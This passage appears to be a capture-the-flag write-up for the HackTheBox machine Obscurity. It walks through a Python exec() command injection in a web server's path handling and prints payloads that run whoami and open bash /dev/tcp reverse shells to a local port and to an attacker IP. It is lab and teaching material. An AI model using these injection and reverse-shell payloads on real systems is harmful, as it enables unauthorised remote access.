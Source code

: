 So what the program does here is take the path in the GET request, formats it and stores the result in the `output` variable. Here's what happen if I test that part of the code manually in the python interactive interpreter.

```
>>> exec("output = 'Document: {}'".format("/test"))
>>> output
'Document: /test'
```

That `output` variable is not even used in the program and has been placed here just to introduce that command injection vulnerability. What I can do here is store an empty value in the `output` variable but add additional code after the `output` variable assignment.

I'll test this locally first in my python shell, first I'll validate that I can execute `whoami`:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"whoami\")#'"))
root
```

Ok so that works. Next I'll spawn a reverse shell with:

```
>>> exec("output = 'Document: {}'".format("';__import__(\"os\").system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'\")#'"))

root@beholder:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38520
```

Awesome, next destination: getting a shell on the target box.

I'll use the `';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.51/4444 0>&1'")#` payload and URL-encode all the characters so I don't have any problems with my curl command. The exec/eval works and I get a shell.

![](/assets/images/htb-writeup-obscurity/shell.png)

## Cracking robert's password

I have access to robert's home directory but I can't read the flag so I have to get access to his account next.

![](/assets/images/htb-writeup-obscurity/robert.png)
